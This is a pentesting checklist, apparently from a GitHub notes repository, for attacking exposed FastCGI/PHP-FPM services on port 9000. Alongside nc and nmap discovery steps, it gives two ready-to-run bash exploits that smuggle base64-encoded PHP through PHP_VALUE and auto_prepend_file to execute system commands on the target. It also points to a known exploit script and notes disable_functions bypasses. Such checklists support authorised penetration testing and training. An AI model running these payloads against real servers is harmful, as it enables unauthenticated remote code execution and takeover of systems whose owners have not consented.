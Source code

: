 # FastCGI (Port 9000) Pentesting Checklist & Commands

## 🎯 What am I realistically expecting to find here?

⭐ After enumerating FastCGI (port 9000), I realistically expect to find:

- [ ] Exposed PHP-FPM FastCGI service
- [ ] Potential for unauthenticated Remote Code Execution (RCE)
- [ ] Ability to abuse misconfigured `SCRIPT_FILENAME`
- [ ] Bypasses for `disable_functions` or `open_basedir`
- [ ] Usually only exposed on localhost but sometimes misconfigured externally

---

## ✅ FastCGI Pentest Checklist

- [ ] **Service Discovery**
  - Check if port 9000 is open and responding.
    ```
    nc -vn <IP> 9000
    ```

- [ ] **Nmap Scan**
  - Even though FastCGI often won't be identified by nmap, it's worth a try.
    ```
    nmap -sV -p9000 <IP>
    ```

- [ ] **Manual Testing for RCE**
  - Bash one-liner to inject PHP payload via FastCGI.
    ```bash
    PAYLOAD="<?php system('id'); ?>"
    FN="/var/www/html/index.php"
    HOST=<IP>
    B64=$(echo "$PAYLOAD" | base64)
    env -i \
      PHP_VALUE="allow_url_include=1
allow_url_fopen=1
auto_prepend_file='data://text/plain;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000
    ```

- [ ] **Automated Exploit Example**
  - Use the well-known Python script.
    ```
    https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75
    ```

- [ ] **Check for Misconfigurations**
  - Test different paths if default index.php not found.
    ```
    /usr/share/nginx/html/index.php
    /var/www/html/index.php
    /srv/www/htdocs/index.php
    ```

- [ ] **Check for Bypasses**
  - Abuse of `allow_url_include` and `auto_prepend_file`.
  - Circumvent `disable_functions` with FastCGI injection.

---

## ✅ FastCGI RCE Command Example

- **Minimal Bash Exploit**
    ```
    #!/bin/bash
    PAYLOAD="<?php echo '<!--'; system('whoami'); echo '-->'; ?>"
    FILE="/var/www/html/index.php"
    HOST=<IP>
    B64=$(echo "$PAYLOAD"|base64)

    env -i \
      PHP_VALUE="allow_url_include=1
allow_url_fopen=1
auto_prepend_file='data://text/plain;base64,$B64'" \
      SCRIPT_FILENAME=$FILE SCRIPT_NAME=$FILE REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000
    ```

---

## ✅ Resources

- [Disable Functions Bypass with PHP-FPM FastCGI](https://book.hacktricks.xyz/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass/disable_functions-bypass-php-fpm-fastcgi)
- [phith0n FastCGI Exploit Script](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)
``
